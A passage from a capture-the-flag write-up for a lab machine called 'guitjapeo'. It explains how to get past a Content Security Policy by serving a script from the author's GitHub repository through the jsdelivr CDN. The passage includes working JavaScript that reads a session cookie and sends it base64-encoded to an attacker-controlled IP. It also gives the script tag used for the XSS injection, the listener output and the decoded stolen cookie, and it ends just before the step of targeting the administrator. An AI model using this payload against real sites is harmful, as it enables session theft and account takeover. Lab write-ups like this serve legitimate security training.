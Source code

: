 First, we conduct tests to try to read our own cookie. As seen in the CSP header, scripts can be loaded from the domain `https://cdn.jsdelivr.net`, which allows us to load scripts from our GitHub repository using the following URL format:

```
https://cdn.jsdelivr.net/gh/{GITHUB_USER}/{REPO}@{BRANCH}/{FILE_PATH}
```

If we haven't yet, we create a GitHub account, set up a repository, and add the following JavaScript file. Replace the IP with your attacking machine's IP.

```javascript
// cookies.js
var req = new XMLHttpRequest();
req.onload=reqListener;
var url="https://guitjapeo.thl/api/info";
req.withCredentials=true;
req.open("GET",url,false);
req.send();
function reqListener() {
    const sess=JSON.parse(this.responseText).cookie;
    location.href="http://192.168.1.116/?data="+btoa(sess);
};
```

My GitHub user is `Len4m`, the repo I've created is `temp`, and the branch is `main`. Therefore, the URL to my script through the CDN of jsdelivr is:

```url
https://cdn.jsdelivr.net/gh/Len4m/temp@main/cookies.js
```

We start listening with an HTTP service on port 80 on our attacking machine. Then, in the "Custom Animation Content" form on the main page, we insert the following code and send it:

```html
<script src="https://cdn.jsdelivr.net/gh/Len4m/temp@main/cookies.js"></script>
```

We manage to obtain our own session cookie.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.116 - - [21/Sep/2024 05:19:40] "GET /?data=Y29ubmVjdC5zaWQ9cyUzQUJDelBJRmVvdEM0YlBCMnRrNkpERGVkSFF2U192cG1aLjBiV09tNDdJUTYwRjdTJTJCdkxMTFVDM2RpcHlMUGdKVDZxWWdMTkFwbXlzbw== HTTP/1.1" 200 -

┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ echo Y29ubmVjdC5zaWQ9cyUzQUJDelBJRmVvdEM0YlBCMnRrNkpERGVkSFF2U192cG1aLjBiV09tNDdJUTYwRjdTJTJCdkxMTFVDM2RpcHlMUGdKVDZxWWdMTkFwbXlzbw== | base64 -d
connect.sid=s%3ABCzPIFeotC4bPB2tk6JDDedHQvS_vpmZ.0bWOm47IQ60F7S%2BvLLLUC3dipyLPgJT6qYgLNApmyso
```

### Obtaining Administrator Session

With the preparations made, we can now send a malicious URL to the Administrator user by following these steps:
